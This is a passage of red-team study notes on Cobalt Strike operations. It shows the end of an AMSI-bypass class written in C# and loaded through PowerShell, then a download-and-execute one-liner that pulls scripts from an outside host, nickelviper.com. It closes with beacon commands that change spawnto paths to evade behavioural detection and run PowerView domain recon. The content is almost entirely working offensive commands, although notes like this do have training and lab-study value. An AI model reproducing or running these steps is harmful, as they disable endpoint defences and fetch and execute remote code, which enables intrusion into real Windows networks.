 ```powershell
            public ulong LastExceptionToRip;
            public ulong LastExceptionFromRip;
        }

        [StructLayout(LayoutKind.Sequential)]
        public struct EXCEPTION_RECORD
        {
            public uint ExceptionCode;
            public uint ExceptionFlags;
            public IntPtr ExceptionRecord;
            public IntPtr ExceptionAddress;
            public uint NumberParameters;
            [MarshalAs(UnmanagedType.ByValArray, SizeConst = 15, ArraySubType = UnmanagedType.U4)] public uint[] ExceptionInformation;
        }

        [StructLayout(LayoutKind.Sequential)]
        public struct EXCEPTION_POINTERS
        {
            public IntPtr pExceptionRecord;
            public IntPtr pContextRecord;
        }
    }
}
"@

Add-Type -TypeDefinition $HWBP
[HWBP.Amsi]::Bypass()
```

```powershell
PS C:\Users\bfarmer> iex (new-object net.webclient).downloadstring("http://nickelviper.com/bypass"); iex (new-object net.webclient).downloadstring("http://nickelviper.com/a")
```

### Behavioural Detections

>   The sysnative and syswow64 paths should be used rather than system32.

```bash
# change default rundll32
beacon> spawnto x64 %windir%\sysnative\dllhost.exe
beacon> spawnto x86 %windir%\syswow64\dllhost.exe
```
```bash
beacon> powerpick Get-Process -Id $pid | select ProcessName
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
beacon> powerpick Get-Domain
# reverse
beacon> spawnto
# if you not change c2 profile you should can add this
beacon> ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
beacon> ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe
ak-settings service [name]
```
